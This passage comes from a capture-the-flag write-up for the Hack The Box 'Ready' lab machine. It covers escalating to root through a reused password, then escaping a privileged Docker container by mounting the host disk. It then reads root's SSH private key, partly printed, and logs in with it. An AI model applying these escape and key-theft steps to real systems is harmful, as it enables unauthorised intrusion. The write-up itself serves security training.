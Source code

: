 Because `root` used the same password, it was possible to escalate to root reusing it:

```bash
git@gitlab:/opt/backup$ su root
Password: 
root@gitlab:/opt/backup# id                                   
uid=0(root) gid=0(root) groups=0(root)
```

## Privilege Escalation

Because the container had the **privileged** flag set to **true** and root access was gained, it was possible to escape from it and get access on the original target mounting the corresponding partition.

A PoC of the method can be read on the HackTricks blog: [Docker Basics & Breakout](https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout#i-own-root)

Enumerated all the partition using `fdisk` and mounted the target filesystem inside the container:

```bash
root@gitlab:/mnt# fdisk -l
...
Device        Start      End  Sectors Size Type
/dev/sda1      2048     4095     2048   1M BIOS boot
/dev/sda2      4096 37746687 37742592  18G Linux filesystem
/dev/sda3  37746688 41940991  4194304   2G Linux swap
root@gitlab:/mnt# mount /dev/sda2 /mnt/tmp/

root@gitlab:/mnt# mkdir tmp
root@gitlab:/mnt# mount /dev/sda2 /mnt/tmp/
```

Leaked the root private key:

```bash
root@gitlab:/mnt/tmp/root# ls
docker-gitlab  ready-channel  root.txt  snap
root@gitlab:/mnt/tmp/root# cd .ssh
root@gitlab:/mnt/tmp/root/.ssh# ls
authorized_keys  id_rsa  id_rsa.pub
root@gitlab:/mnt/tmp/root/.ssh# cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAvyovfg++zswQT0s4YuKtqxOO6EhG38TR2eUaInSfI1rjH09Q
...
aKvV8jR1G+70v4GVye79Kk7TL5uWFDFWzVPwVID9QCYJjuDlLBaFDnUOYFZW52gz
vJzok/kcmwcBlGfmRKxlS0O6n9dAiOLY46YdjyS8F8hNPOKX6rCd
-----END RSA PRIVATE KEY-----
```

Obtained a high privileged shell using the stolen key:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Ready]
└─$ nano loot/root.rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAvyovfg++zswQT0s4YuKtqxOO6EhG38TR2eUaInSfI1rjH09Q
sle1ivGnwAUrroNAK48LE70Io13DIfE9rxcotDviAIhbBOaqMLbLnfnnCNLApjCn
...

┌──(kali㉿kali)-[~/CTFs/HTB/box/Ready]
└─$ ssh root@10.10.10.220 -i loot/root.rsa
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-40-generic x86_64)
...
Last login: Thu Feb 11 14:28:18 2021
root@ready:~# whoami && hostname && cat /root/root.txt && ifconfig -a
root
ready
```